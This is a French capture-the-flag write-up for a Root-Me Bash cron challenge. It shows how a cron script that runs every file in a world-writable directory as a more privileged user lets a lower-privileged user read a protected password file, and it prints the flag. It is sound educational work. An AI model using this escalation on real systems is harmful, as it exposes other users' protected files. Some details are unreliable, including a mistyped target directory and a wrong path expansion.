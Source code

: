 ## Source et énoncé du CTF

<https://www.root-me.org/fr/Challenges/App-Script/Bash-cron>


## Write-up

Le titre du challenge semble laisser penser que le but du CTF est d'exploiter une faiblesse de configuration de *cron*. 


### Analyse du challenge

En listant les fichiers du répertoire de travail, on obtient le résultat suivant :
```console
app-script-ch4@challenge02:~$ ls -la
total 24
dr-xr-x---  2 app-script-ch4-cracked app-script-ch4         4096 Dec 10  2021 .
drwxr-xr-x 25 root                   root                   4096 Sep  5  2023 ..
-r--------  1 root                   root                    629 Dec 10  2021 ._perms
-rw-r-----  1 root                   root                     42 Dec 10  2021 .git
-r--r-----  1 app-script-ch4-cracked app-script-ch4-cracked   16 Dec 10  2021 .passwd
-r-xr-x---  1 app-script-ch4-cracked app-script-ch4          767 Dec 10  2021 ch4
lrwxrwxrwx  1 root                   root                     11 Dec 10  2021 cron.d -> /tmp/._cron
```
On comprend qu'il va falloir exploiter une faiblesse de configuration de *cron* pour lire le contenu du fichier *.passwd*, accessible en lecture seulement pour l'utilisateur *app-script-ch4-cracked*.

En affichant le contenu du fichier */challenge/app-script/ch4*, on obtient le résultat suivant :
```console
app-script-ch4@challenge02:~$ cat ch4
#!/bin/bash

# Sortie de la commande 'crontab -l' exécutée en tant que app-script-ch4-cracked:
# */1 * * * * /challenge/app-script/ch4/ch4
# Vous N'avez PAS à modifier la crontab(chattr +i t'façons)

# Output of the command 'crontab -l' run as app-script-ch4-cracked:
# */1 * * * * /challenge/app-script/ch4/ch4
# You do NOT need to edit the crontab (it's chattr +i anyway)

# hiding stdout/stderr
exec 1>/dev/null 2>&1

wdir="cron.d/"
challdir=${0%/*}
cd "$challdir"


if [ ! -e "/tmp/._cron" ]; then
    mkdir -m 733 "/tmp/._cron"
fi

ls -la "${wdir}" | while read task; do
    if [ -f "${wdir}${task}" -a -x "${wdir}${task}" ]; then
        timelimit -q -s9 -S9 -t 5 bash -p "${PWD}/${wdir}${task}"
    fi
    rm -f "${PWD}/${wdir}${task}"
done

rm -rf cron.d/*
```
Nous relevons trois choses :

* Le répertoire *~/cron.d* est un lien symbolique vers le répertoire */tmp/._cron*
* Le script Bash */challenge/app-script/ch4* est exécuté automatiquement toutes les minutes par *cron* via le *crontab* de l'utilisateur *app-script-ch4-cracked* :
```console
*/1 * * * * /challenge/app-script/ch4/ch4*
```
* Le script Bash */challenge/app-script/ch4* et le *crontab*  de l'utilisateur *app-script-ch4-cracked* ne sont pas à modifier et ne sont pas modifiable car les attribus de ces fichiers on été modifiés pour que les fichiers soient immuables (impossibilité de modification, renommage, suppression, écriture, même par *root*) via la commande `chattr +i`.

On en conclus qu'il faudra exploiter une faiblesse du script Bash */challenge/app-script/ch4* utilisé par *cron* via le *crontab* de l'utilisateur *app-script-ch4-cracked* pour faire une escalade de privilèges.


### Commentaire du script Bash

Analysons le script Bash :

* Toutes les sorties des commandes passées dans le script Bash (sortie standard et sortie d'erreur) seront envoyées dans */dev/null* :
```console
exec 1>/dev/null 2>&1
```
* Définition des variables :
```console
wdir="cron.d/"
challdir=${0%/*}
```
Remarques :

  * `${0}` renvoie le chemin complet du script Bash : */challenge/app-script/ch4*
  * En langage Bash, `${variable%pattern}` permet de supprimer la plus courte correspondance du *pattern* à la fin de la valeur de la *variable*
  * Ainsi, `challdir=${0%/*}` renverra le chemin complet du script Bash privé de tout ce qui se trouve derrière le dernier */* (*/* compris), soit : */challenge/app-script/*

* Si le répertoire */tmp/._cron* n'existe pas, le créer avec des droits spécifiques :
```console
if [ ! -e "/tmp/._cron" ]; then
    mkdir -m 733 "/tmp/._cron"
fi
```
* Exécution de tous les scripts présents dans le répertoire */tmp/._cron* :
```console
ls -la "${wdir}" | while read task; do
    if [ -f "${wdir}${task}" -a -x "${wdir}${task}" ]; then
        timelimit -q -s9 -S9 -t 5 bash -p "${PWD}/${wdir}${task}"
    fi
    rm -f "${PWD}/${wdir}${task}"
done
```
Remarques : 

  * Énumération de tous les noms de fichiers du répertoire */tmp/._cron* :
```console
ls -la "${wdir}"
```
Chacun des noms de fichiers énumérés sera stocké dans la variable *task* et lu par la boucle *while*.

  * Test permettant de vérifier si les fichiers du répertoire */tmp/._cron* existent ET sont exécutables :
```console
if [ -f "${wdir}${task}" -a -x "${wdir}${task}" ]
```
  * Exécution de tous les scripts Bash du répertoire */tmp/._cron* en mode *privilège* (*-p*). Les scripts Bash exécutés sont limités en temps d'exécution via la commande *timelimit* exécutée en mode silencieux (*-q*). Le temps maximal d'exécution est placé à 5 secondes (*-t 5*). Si ce temps d'exécution est dépassé, un signal SIGKILL est envoyé au processus (*-s9*) et un signal SIGKILL est envoyé à l'ensemble du groupe de processus (*-S9*) : 
```console
timelimit -q -s9 -S9 -t 5 bash -p "${PWD}/${wdir}${task}"
```
  * À chaque fin de la boucle *While*, le script exécuté est supprimé :
```console
rm -f "${PWD}/${wdir}${task}
```
  * À la fin du script, tout le contenu du répertoire */tmp/._cron* est supprimé :
```console
rm -rf cron.d/*
```

### Exploitation

Pour exploiter le script Bash décrit précédemment, on en déduit qu'il s'agira de créer un script Bash exécutable permettant d'afficher le contenu du fichier */challenge/app-script/ch4/.passwd* et de le placer dans le répertoire */tmp/._cron*. 

Nous travaillerons temporairement dans le répertoire */tmp* car il est accessible en écriture à l'utilisateur *app-script-ch4*. De plus, le contenu du répertoire */tmp/._cron* est vidé toutes les minutes à chaque passage de la tâche *cron* de l'utilisateur *app-script-ch4-craked*. Nous copierons ensuite l'exploit dans le répertoire */tmp/._cron* pour que l'exécution se fasse :
```console
app-script-ch4@challenge02:~$ touch /tmp/exploit.sh

app-script-ch4@challenge02:~$ chmod 775 /tmp/exploit.sh

app-script-ch4@challenge02:~$ ls -la /tmp/exploit.sh
-rwxrwxr-x 1 app-script-ch4 app-script-ch4 74 Sep  7 09:53 /tmp/exploit.sh

app-script-ch4@challenge02:~$ vi /tmp/exploit.sh

app-script-ch4@challenge02:~$ cat /tmp/exploit.sh
#!/bin/bash
/bin/cat /challenge/app-script/ch4/.passwd >> /tmp/results.txt

app-script-ch4@challenge02:~$ cp -p /tmp/exploit.sh /tmp/_.cron/exploit.sh
```
Il ne nous reste plus qu'à attendre approximativement une minute pour afficher le contenu du fichier */tmp/results.txt* pour obtenir le flag :
```console
app-script-ch4@challenge02:~$ cat /tmp/results.txt
Vys3OS3iStUapDj
```


## Flag

Vys3OS3iStUapDj